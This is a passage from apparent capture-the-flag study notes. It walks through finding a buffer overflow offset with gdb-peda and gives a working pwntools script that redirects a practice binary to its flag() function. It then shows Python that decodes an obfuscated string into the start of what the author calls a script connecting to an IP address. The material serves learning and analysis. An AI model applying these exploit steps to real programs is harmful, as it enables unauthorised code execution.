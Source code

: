 Now, we can use `pattern_offset` to obtain exactly the number of characters to reach to Return address:
```bash
gdb-peda$ pattern_offset 0x41417741
1094809409 found at offset: 188
```

Now we know that if we write exactly 188 chars, the next content will be written to the return address and we can make the program jump to where we want.

### Write the exploit

In the case I'm working on the exploit just need to call another function in the code. In order to so, I'll use python [`pwntools`](https://github.com/Gallopsled/pwntools) which helps a lot on these kind of things.

```python
from pwn import *

context.update(arch="i386", os="linux")

elf = ELF("./vuln")

# offset to reach right before return address's location
offset = b"A" * 188

# craft exploit: offset + flag() + padding + parameter 1 + parameter 2
exploit = offset + p32(elf.symbols['flag'], endian="little") + p32(0x90909090) + p32(0xdeadbeef, endian="little") + p32(0xc0ded00d, endian="little")

r = elf.process()
r.sendlineafter(":", exploit)
r.interactive()
```
Remember that we are jumping to flag() using RET. This means flag() will think itself have a return address. Therefore, we should pad with any 4 bytes of content before we write the 2 parameters.

## Obfuscated code

Sometimes, when trying to reverse the code, you might see strings that look very odd, e.g:

`3734203635203636203132322036352036382034382036352037342031`

This might be some string buf obfuscated somehow. So far, I found this kind of simple de-obfuscation (the plan is to keep updating this with more obfuscation techniques):

### Hex to DEC > DEC to char > decode all string in base64
```python
import binascii
import base64

def dec_to_chr(str):
    return "".join([chr(int(s)) for s in str.decode('utf-8').split(' ')])

base64text = ""
base64text += dec_to_chr(binascii.unhexlify("3734203635203636203132322036352036382034382036352037342031") + binascii.unhexlify("31392036352035312036352036382039392036352037362031303320363520353120363520363820383120363520373620313033"))
base64text +=  dec_to_chr(binascii.unhexlify("3635203631"))
print(base64.b64decode(base64text).decode())
$s='77.74.
```
In this case, this looks like the begining of a script trying to connect to an IP address.
